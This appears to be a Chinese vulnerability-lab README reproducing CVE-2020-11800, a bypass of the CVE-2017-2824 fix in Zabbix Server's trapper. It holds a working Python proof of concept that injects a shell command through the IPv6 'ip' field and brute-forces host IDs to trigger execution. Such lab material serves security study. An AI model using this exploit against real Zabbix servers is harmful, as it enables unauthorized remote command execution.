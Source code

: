 # Zabbix Server Active Proxy Trapper 命令注入漏洞修复绕过（CVE-2020-11800）

Zabbix 是由Alexei Vladishev 开发的一种网络监视、管理系统，基于 Server-Client 架构。在[CVE-2017-2824][1]中，其Server端 trapper command 功能存在一处代码执行漏洞，而修复补丁并不完善，导致可以利用IPv6进行绕过，注入任意命令。

参考链接：

- https://xz.aliyun.com/t/8991

## 环境搭建

执行如下命令启动一个完整的Zabbix环境，包含Web端、Server端、1个Agent和Mysql数据库：

```
docker compose up -d
```

命令执行后，执行`docker compose ps`查看容器是否全部成功启动，如果没有，可以尝试重新执行`docker compose up -d`。

利用该漏洞，需要你服务端开启了自动注册功能，开启方法请参考[CVE-2017-2824][1]。

## 漏洞复现

修改[CVE-2017-2824][1]的POC中的IP字段，构造新的POC：

```python
import sys
import socket
import json
import sys


def send(ip, data):
    conn = socket.create_connection((ip, 10051), 10)
    conn.send(json.dumps(data).encode())
    data = conn.recv(2048)
    conn.close()
    return data


target = sys.argv[1]
print(send(target, {"request":"active checks","host":"vulhub","ip":"ffff:::;touch /tmp/success2"}))
for i in range(10000, 10500):
    data = send(target, {"request":"command","scriptid":1,"hostid":str(i)})
    if data and b'failed' not in data:
        print('hostid: %d' % i)
        print(data)
```

可见，这个POC与[CVE-2017-2824][1]的POC非常相似，但我使用IPv6 `ffff:::;touch /tmp/success2`绕过了修复补丁。

当查看到如下结果时，则说明命令执行成功：

![](1.png)

进入server容器，可见`/tmp/success2`已成功创建：

![](2.png)

有兴趣的同学可以对这个POC进行改进，提交Pull Request。

[1]: ../CVE-2017-2824
